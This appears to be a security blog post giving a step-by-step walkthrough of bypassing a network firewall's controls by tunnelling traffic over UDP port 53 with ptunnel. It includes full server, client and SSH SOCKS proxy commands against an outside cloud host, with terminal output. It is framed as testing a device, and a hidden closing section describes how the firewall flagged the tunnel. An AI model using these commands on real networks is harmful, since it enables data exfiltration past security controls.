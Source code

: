```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration over UDP (ptunnel)"
date:   2021-01-19 12:21:16 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that UDP is being permitted egress by the firewall.
</p>

<p>
ptunnel creates a tunnel interface on a system and then allows you to create a UDP tunnel between a clien
t and the server.
</p>
<p>
The server will need to be on the outside of your DUT (Device Under Testing). The idea is that the client
 will establish a tunnel to the server and be able to bypass the rest of the controls (URL Filtering, IPS, etc) in the network that the client is behind.
</p>


<h3>Step 1 - Deploy the ptunnel Server</h3>


<p>
In this case the ptunnel server is running on a host in GCP. Make sure the firewall is permitting port 53, or whichever port you decide to use to get around the DUT.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>


<p>
Once installed we can start the server. In this case we are enabling the UDP flag because ptunnel's default behaviour is to use ICMP (which is super slow). The -v enables visibility into what's going on. And -x boom is a password being set which is also optional.
<p>

<pre>
root@sperciballi-iodine:/home/stephen# ptunnel -udp -v 4 -x boom
[dbg]: Password set - unauthenicated connections will be refused.
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: UDP transport enabled.
[dbg]: Starting ping proxy..
[dbg]: Creating UDP socket..
[inf]: Ping proxy is listening in privileged mode.
</pre>

<h3>Step 2 - Deploy the ptunnel Client</h3>

<p>
From a host behind the DUT run the ptunnel client. There are Windows binaries if you prefer but Linux is what we are using.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>

<p>
Once installed we can start the client. In this case we are again enabling the UDP flag. The -p IP address is the servers public IP address. The -lp 8080 is specifying a local port to proxy traffic through, and the -da localhost is specifying localhost as the proxy (in some circumstances you may want to use a different local IP). The -dp 22 is the destination port on the remote end we will be sending traffic through. And the -x boom is again the corresponding password.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ptunnel -udp -p 35.196.116.250 -lp 8080 -da localhost -dp 22 -x boom
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: UDP transport enabled.
[inf]: Incoming connection.
[evt]: No running proxy thread - starting it.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping tunnel to 127.0.0.1:22 due to inactivity.
[inf]: 
Session statistics:
[inf]: I/O:   0.14/  0.01 mb ICMP I/O/R:      212/      67/      40 Loss:  0.6%
</pre>



<h3>Step 3 - Setup a Proxy</h3>


<p>
From the client system we will now configure an SSH SOCKS5 proxy. This will send all of our traffic over an encrypted SSH tunnel, through the UDP tunnel established by ptunnel. The main reason for this is ease of use. You could also setup a basic HTTP proxy like squid on the ptunnel server side.
</p>

<p>
To start the proxy from the client we ssh, specify the local port of 8080, -C compresses traffic, -D 8081 specifies to use 8081 as the SOCKS5 port, and -da localhost -dp 22 says to ssh into localhost. It is important to note that because we are actually using port 8080 this command is ssh'ing into the ptunnel host so <b>remember to use the login for the ptunnel server and not actually localhost.</b>
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ssh -i ./google_compute_engine -p 8080 -C -D 8081  stephen@localhost
Enter passphrase for key './google_compute_engine': 
Linux sperciballi-iodine 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
</pre>


<h3>Step 4 - Proxy Your Traffic</h3>

<p>
At this point we have essentially enabled a proxy within a proxy. Now we have to tell our client system software to use the proxy.
</p>

<p>
In your web browser preferences search for proxy. Then configure it to use a SOCKS5 proxy, specify localhost for the host and port 8081 (from step 3) for the port.
</p>

<p>
From here if you search for what's my IP you will find that the IP address is that of the public interface of the ptunnel server.
</p>

<!--
<h3>Step 5 - View the Results</h3>

<p>
Check back in on the NGFW to see how it interpretted this session.
</p>

<p>
From this one we can see that there were two alerts. One of them was a traffic log that shows traffic going over UDP port 53. The application is unknown-udp. While this is not ideal it's better to be designated as unknown-tcp which you should be working to manage out of your ruleset than misidentified as DNS or something else. You can also see that the traffic amounted to 5.3M which was me visiting a couple of websites. Also important to note that you won't see this log until the session is ended by default.
</p>

<p>
The second alert is an IPS alert indicating that there was non-compliant DNS traffic. These two things together are a good indicated that someone is tunneling and is reason to adjust policy.
</p>

<img src="/images/appid-evasion-ptunnelresults.png">
<br>
<br>
-->
